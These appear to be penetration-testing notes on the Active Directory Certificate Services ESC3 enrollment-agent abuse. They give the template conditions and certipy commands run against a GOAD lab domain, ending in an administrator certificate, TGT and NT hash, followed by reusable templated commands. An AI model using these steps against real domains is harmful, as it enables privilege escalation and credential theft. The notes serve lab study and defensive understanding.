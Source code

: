 The Certificate Request Agent EKU (Enrollment Agent) enables a principal to request a certificate on behalf of another user. The `enrollment agent` enrolls in this template and employs the resulting certificate to collaboratively sign a Certificate Signing Request (CSR) on behalf of another user. Subsequently, the enrollment agent forwards the co-signed CSR to the Certification Authority while enrolling in a template that authorises `enroll on behalf of`. In response, the CA issues a certificate belonging to the `other` user.

Requires two templates matching the connections.
### Condition 1  

A template allows a low-privileged user to enrol in an enrolment agent certificate

- The Enterprise CA grants low-privileged users enrolment rights (same as `ESC1`).
- Manager approval should be turned off (same as `ESC1`).
- No authorised signatures are required (same as `ESC1`).
- The security descriptor of the certificate template must be excessively permissive, allowing low-privileged users to enrol for certificates (same as `ESC1`).
- The certificate template includes the `Certificate Request Agent EKU`, specifically the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1), allowing the requesting of other certificate templates on behalf of other principals.

![[Pasted image 20241006151606.png]]

### Condition 2

Another template permits a low privileged user to use the enrolment agent
certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

- The Enterprise CA grants low-privileged users enrolment rights (same as `ESC1`).
- Manager approval should be turned off (same as `ESC1`).
- The template schema version 1 or is greater than 2 and specifies an Application Policy Issuance Requirement that necessitates the Certificate Request Agent EKU.
- The certificate template defines an EKU that enables domain authentication.
- No restrictions on enrolment agents are implemented at the CA level.

In the following example the `User` template  matches the requirements. The following was taken from Windows as this provides more information. This does not flag as an ESC3 vulnerability:

![[Pasted image 20241006153253.png]]

The following template can also be used is it matches the `Schema Version 2` requirements

![[Pasted image 20241006150915.png]]

First we request a certificate as our self targeting the vulnerable template:

```bash
garffff@garffff:~/GOAD/esc3$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC3-CRA -ca ESSOS-CA -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 34
[*] Got certificate with UPN 'khal.drogo@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'khal.drogo.pfx'
```

Next is to request a certificate on behalf of the target user:

```bash

garffff@garffff:~/GOAD/esc3$ certipy req -u khal.drogo@essos.local -p 'horse' -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 35
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Then authenticate as that user and obtain the hash

```bash
garffff@garffff:~/GOAD/esc3$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

### Summary

The `-on-behalf` need to be  the NetBIOS  of the domain and not the FQDN. E.g. `essos` and not `essos.local`

```bash
certipy req -u <user>@<domain> -p '<horse>' -template <condition1_template> -ca <ca> -dc-ip <adcs_ip>
certipy req -u <user>@<domain> -p '<horse>' -template <condition2_template> -ca <ca> -on-behalf-of '<domain>\<target_user>' -pfx <user>.pfx -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```

